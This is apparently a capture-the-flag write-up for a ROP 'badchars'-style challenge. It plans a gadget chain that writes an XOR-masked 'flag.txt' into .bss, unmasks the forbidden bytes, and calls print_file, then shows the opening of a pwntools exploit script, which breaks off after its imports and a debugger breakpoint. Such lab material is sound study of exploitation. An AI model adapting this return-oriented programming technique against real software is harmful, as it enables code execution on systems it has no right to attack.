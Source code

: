 
### ropchaine synoptic

Because our xor gadget xor only one char a time we wan xor only the needed bytes.

Here xga. must be xored.

flag.txt
00111010

we can make a function xorchain(string, filter, mask) :
xor the bytes selected by a filter (mask of characters to xor) and with a xor mask value.
We choose the xor mask 0b11 (3)

xoredflag = xorchain("flag.txt","00111010", 3)

Return "flag.txt" masked : "flbd-t{t"


write masked file name.
- pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
- xoredflag for r12  write content
- @bss      for r13, write target
- 3         for r14, xor mask 
- @bss+2    for r15, target adresse of char 2
- mov qword ptr [r13], r12 ; ret    : do the initial write

xor of .bss+2
- xor byte ptr [r15], r14b ; ret

xor of .bss+3
- pop r15
- @bss+3
- xor byte ptr [r15], r14b ; ret

xor de .bss+4
- pop r15
- @bss+4
- xor byte ptr [r15], r14b ; ret

xor de .bss+6
- pop r15
- @bss+6
- xor byte ptr [r15], r14b ; ret

call print_file(@bss)
- pop rdi
- @bss
- print_file

## Exploitation

### Python script

Below, the exploitation python script

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time
import sys

# break after read in pwnme
gs='''
b *pwnme+150
c
'''

```